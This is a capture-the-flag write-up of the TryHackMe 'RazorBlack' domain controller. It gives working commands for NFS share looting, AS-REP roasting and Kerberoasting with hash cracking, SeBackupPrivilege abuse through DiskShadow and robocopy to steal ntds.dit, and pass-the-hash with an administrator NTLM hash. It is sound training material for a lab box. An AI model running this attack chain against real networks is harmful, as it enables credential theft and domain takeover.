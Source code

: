 # THM - RazorBlack

#### Ip: 10.10.83.71
#### Name: RazorBlack
#### Rating: Medium

----------------------------------------------------------------------

![razorblack.jpeg](../assets/razorblack_assets/razorblack.jpeg)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo nmap -p-  --min-rate 10000 10.10.59.200  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 10:33 CDT
Warning: 10.10.59.200 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.59.200
Host is up (0.13s latency).
Not shown: 64884 closed tcp ports (reset), 624 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2049/tcp  open  nfs
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49673/tcp open  unknown
49677/tcp open  unknown
49692/tcp open  unknown
49704/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.51 seconds
```

Woof, that's a lot of open ports. Rather than scanning for versions and using Nmap scripts, lets enumerate these manually. 

Because this appears to be a domain controller, lets use CrackmapExec to get the domain name, which we can then add to our `/etc/hosts` file:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ crackmapexec smb 10.10.59.200                           
SMB         10.10.59.200    445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
```

Taking a look at RPC on port 111, we see we can mount a share:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ showmount -e 10.10.59.200
Export list for 10.10.59.200:
/users (everyone)
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ mkdir /tmp/users         
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo mount -t nfs 10.10.59.200:/users /tmp/users -o nolock
                                                                                                                                                                                                                                                       
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo ls /tmp/users 
employee_status.xlsx  sbradley.txt
```

Cool, looks like two files, an employee status Excel document, and a file called sbradley.txt, which contains a flag (for this writeup I'll be skipping all the flag submissions for the challenge and just focusing on rooting the domain)

Taking a look at the Excel document we find a list of names. 

![users.png](../assets/razorblack_assets/users.png)

We can follow the naming convention from the sbradley.txt file and assume the convention is first_initial_last_name. Lets create a username file based on this logic:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ cat >> users.txt
dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams
sbradley
clin
^C
```

Now that we have this, lets see what we can do with it.

### Exploitation

Trying impacket-GetNPUsers with the `-no-pass` flag set we are able to drop a hash!

![npu.png](../assets/razorblack_assets/npu.png)

Lets put this hash in a file called twilliams_hash and try to crack it using JohnTheRipper:

![twilliams.png](../assets/razorblack_assets/twilliams.png)

Nice, John cracked that easily. Now that we have some credentials, lets try using impacket-GetUserSPNs:

![spn.png](../assets/razorblack_assets/spn.png)

We've got another hash! This time for user xyan1d3.

Once again I'll ad this to a file called xyan1d3_hash and use John to crack it:

![john2.png](../assets/razorblack_assets/john2.png)

Cool, that worked! We can now use Evil-WinRM to logon to the target:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ evil-winrm -i raz0rblack.thm -u xyan1d3 -p cyanide9amine5628
```

### Privilege Escalation

Taking a look at our privileges by running `whoami /all` we see the SeBackupPrivilege, which should hopefully be a way to escalate privileges by allowing us to obtain the ntds.dit file. 

To do this we'll need to creat a .dsh file and convert it to be compatible with Windows:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ cat >> hey.dsh 
set context persistent nowriters
add volume c: alias hey
create
expose %hey% z:
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ unix2dos hey.dsh   
unix2dos: converting file hey.dsh to DOS format...
```

Back on the target I'll create a TEMP file and upload the .dsh file using the `upload` feature in Evil-WinRM.

```text
*Evil-WinRM* PS C:\TEMP> upload ~/THM/RazorBlack/hey.dsh
Info: Uploading ~/THM/RazorBlack/hey.dsh to C:\TEMP\hey.dsh

                                                             
Data: 112 bytes of 112 bytes copied

Info: Upload successful!
```

We can now use DiskShadow to make a copy of the `C:\` drive:

![disk.png](../assets/razorblack_assets/disk.png)

Now lets use robocopy to grab the ntds.dit file:

```text
*Evil-WinRM* PS C:\TEMP> robocopy /b z:\windows\ntds . ntds.dit
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Tuesday, August 22, 2023 9:53:47 AM
   Source : z:\windows\ntds\
     Dest : C:\TEMP\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------
```

And we'll also want to grab the SYSTEM registry file too:

```text
*Evil-WinRM* PS C:\TEMP> reg save hklm\system SYSTEM
The operation completed successfully.
```

After using the `download` feature in Evil-WinRM to bring these files back to my attacking machine, I can use impacket-secretsdump to get the administrator's NTLM hash:

![secrets.png](../assets/razorblack_assets/secrets.png)

From here I can pass-the-hash to their account:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ evil-winrm -i raz0rblack.thm -u administrator -H 9689931bed40ca5a2ce1218210177f0c
```

And in the `administrator` folder we find a file called root.xml, which appears to be in hex:

![hex.png](../assets/razorblack_assets/hex.png)

We can crack this using https://gchq.github.io/CyberChef/:

![root_flag.png](../assets/razorblack_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------------------------
